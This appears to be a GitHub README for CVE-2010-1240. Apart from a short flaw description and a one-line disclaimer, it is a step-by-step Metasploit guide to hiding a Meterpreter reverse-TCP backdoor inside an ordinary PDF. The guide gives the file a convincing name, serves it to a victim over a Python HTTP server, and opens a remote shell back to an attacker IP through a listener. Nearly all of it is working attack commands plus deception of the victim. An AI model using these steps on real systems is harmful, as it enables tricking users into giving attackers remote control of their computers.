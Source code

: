 <h1 style="font-size:10vw" align="left">CVE-2010-1240 - Embedding backdoor into a PDF</h1>


<img src="https://img.shields.io/badge/CVSS:2.0%20Score%20-9.3 HIGH-red"> [![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-blueviolet.svg)](https://www.python.org/) <img src="https://img.shields.io/badge/Metasploitable%20-Yes-blue">


******
⚠️ *For educational and authorized security research purposes only*


## Description
Adobe Reader and Acrobat 9.x before 9.3.3, and 8.x before 8.2.3 on Windows and Mac OS X, do not restrict the contents of one text field in the Launch File warning dialog, which makes it easier for remote attackers to trick users into executing an arbitrary local program that was specified in a PDF document, as demonstrated by a text field that claims that the Open button will enable the user to read an encrypted message.


## Demo
![Animation](https://github.com/asepsaepdin/CVE-2010-1240/assets/122620685/2bbfd368-ecbf-44a2-88dd-a95add3e886c)


## Step Guides
1. First, run msfconsole

   ```bash
   msfconsole
   ```

2. Then, set the payload for embedding the pdf

   ```bash
   use exploit/windows/fileformat/adobe_pdf_embedded_exe
   ```

3. set the INFILENAME option and provide direct path to the original pdf file

   ```bash
   set INFILENAME /home/kali/Downloads/certificate-foundations-of-threat-hunting-60c893e734422a67991e093c.pdf
   ```

4. set the name of the newly created malicious PDF file to something more convincing by setting the FILENAME option

   ```bash
   set FILENAME laporan.pdf
   ```

5. Find and embed the payload into the PDF file

   ```bash
   set payload windows/meterpreter/reverse_tcp
   ```

6. Set LHOST option to and attacker's IP

   ```bash
   set LHOST 172.16.10.10
   ```

7. Open a new terminal and navigate to the location of the malicious PDF file

   ```bash
   cd .msf4/local/
   ```

8. Create a temporary server in python

   ```bash
   python -m http.server
   ```

9. Download the malicious PDF file on the victim's machine

   ```bash
   http://172.16.10.10:8000/certificate.pdf
   ```

10. Before running the malicious PDF file on the victim's machine, start the listener on the previous terminal
    
    ```bash
    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set LHOST 172.16.10.10
    exploit
    ```
    
11. Once the malicious PDF file is executed on the victim machine, it will give you connection to the victim's machine


## Credits
- https://nvd.nist.gov/vuln/detail/CVE-2010-1240
- https://medium.com/purple-team/embedding-backdoor-into-pdf-files-1781dfce62b1
- https://github.com/Jasmoon99/Embedded-PDF
